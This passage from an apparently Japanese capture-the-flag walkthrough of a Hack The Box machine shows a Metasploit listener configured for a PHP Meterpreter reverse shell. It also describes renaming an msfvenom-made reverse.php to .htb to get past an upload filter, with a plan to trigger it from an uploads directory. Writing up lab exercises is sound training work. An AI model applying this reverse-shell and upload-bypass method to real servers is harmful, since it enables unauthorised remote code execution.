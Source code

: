 ```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.4       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.4:4444 
```

準備も整いさきほどmsfvenomで作成したreverse.phpをアップロードしますが警告文が出てアップロードすることができません。
おそらくアップロードできる拡張子に制限をかけているのでしょう。

![スクリーンショット 2020-06-11 17.30.00.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/f2cad8fe-3d3a-bfc2-c3c3-2ca8e831c9fc.png)

ソースコードを見てみると画像のようなコメント文が見つかります。

![スクリーンショット 2020-06-11 17.46.30.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/bef979e9-e844-fcb0-4594-1797691bb9ce.png)


I added the file extension .htb to execute as php for debugging purposes only.
翻訳:デバッグのためにphpとして実行するために拡張子.htbを追加してみました。

phpとして実行するために拡張子.phpを追加したとかかれているので、先ほどのreverse.phpの拡張子を.htbに変更して再度アップロードしてみましょう。

![スクリーンショット 2020-06-11 17.48.30.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/ccf5f954-c9d7-2526-c25f-c1b8e5c31892.png)

無事アップロードすることができました。
次にこれを発火させるために、reverse.htbを実行できるページを見つけましょう。
gobusterの結果からuploadsというディレクトリが検出されているので、そこから実行できるか試してみます。
